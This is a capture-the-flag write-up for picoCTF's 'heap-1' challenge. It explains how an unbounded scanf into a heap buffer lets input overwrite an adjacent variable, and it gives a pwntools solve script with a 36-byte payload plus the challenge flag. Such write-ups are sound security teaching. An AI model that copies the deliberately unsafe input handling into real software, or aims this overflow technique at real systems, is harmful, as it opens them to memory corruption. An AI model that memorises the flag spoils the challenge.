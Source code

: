 # heap-1

Author: Abrxs, pr1or1tyQ

Can you control your overflow? Download the binary [here](chall). Download the source [here](chall.c). Connect with the challenge instance here: nc tethys.picoctf.net 57147

## Solution

The program initializes two variables on the heap with 5 bytes, `input_data` and `safe_var`:

```c
void init() {
    ...

    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}
```

We can write our own data to `input_data`, but it uses `scanf` with no user sanitization to write our data. This means we can just overflow into `safe_var`:

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

If we write "pico" into `safe_var` we print the flag:

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    }

    ...
}
```

Here is my solve script:

```python
from pwn import *

context.binary = elf = ELF("./chall", checksec=False)
#io = elf.process()
io = remote("tethys.picoctf.net", 50255)
#context.log_level = "debug"

payload = b'A' * 32 + b'pico'
io.sendlineafter(b": ", b"2")
io.sendlineafter(b": ", payload)
io.sendlineafter(b": ", b"4")
io.recvuntil(b"YOU WIN\n")
flag = io.recvline().strip().decode()

log.success(flag)

io.close()
```

**Flag:** `picoCTF{starting_to_get_the_hang_ce5bee9b}`
